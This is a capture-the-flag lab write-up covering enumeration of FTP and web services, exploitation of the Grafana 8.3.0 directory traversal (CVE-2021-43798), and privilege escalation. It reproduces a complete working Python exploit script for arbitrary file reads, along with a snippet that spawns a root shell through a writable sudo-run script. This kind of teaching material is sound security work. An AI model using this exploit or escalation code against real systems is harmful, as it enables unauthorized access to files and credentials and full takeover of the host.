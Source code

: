 ```yaml
---
sticker: emoji//1f6b6
---
```

# ENUMERATION


## OPEN PORTS

![](cybersecurity/images/Pasted%2520image%252020241025014342.png)


```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![](cybersecurity/images/Pasted%2520image%252020241025014539.png)
We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![](cybersecurity/images/Pasted%2520image%252020241025014619.png)

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![](cybersecurity/images/Pasted%2520image%252020241025014823.png)

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

## FUZZING

### PORT 80 WEBSITE

![](cybersecurity/images/Pasted%2520image%252020241025014929.png)

Found a `/maintenance.html` directory that may be useful, let's visit it:

![](cybersecurity/images/Pasted%2520image%252020241025015023.png)

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website



### PORT 3000 WEBSITE

![](cybersecurity/images/Pasted%2520image%252020241025013600.png)
A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![](cybersecurity/images/Pasted%2520image%252020241025013631.png)

Default page is a login page, something interest I found was this:


![](cybersecurity/images/Pasted%2520image%252020241025015156.png)


Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![](cybersecurity/images/Pasted%2520image%252020241025015326.png)

Perfect, found exactly what I needed, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
            
```


# EXPLOITATION

## LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![](cybersecurity/images/Pasted%2520image%252020241025015835.png)
And it works correctly, let's read our `/tmp/pass.txt` file!

![](cybersecurity/images/Pasted%2520image%252020241025015908.png)

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```


Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![](cybersecurity/images/Pasted%2520image%252020241025020149.png)

Nice, we got access, let's start with the privilege escalation.

# PRIVILEGE ESCALATION



## SUDO -L

![](cybersecurity/images/Pasted%2520image%252020241025020240.png)

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![](cybersecurity/images/Pasted%2520image%252020241025020359.png)

Something simple, just a print statement on it, let's check if we can write in it:

![](cybersecurity/images/Pasted%2520image%252020241025020446.png)

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![](cybersecurity/images/Pasted%2520image%252020241025020740.png)

And just like that, the CTF is done!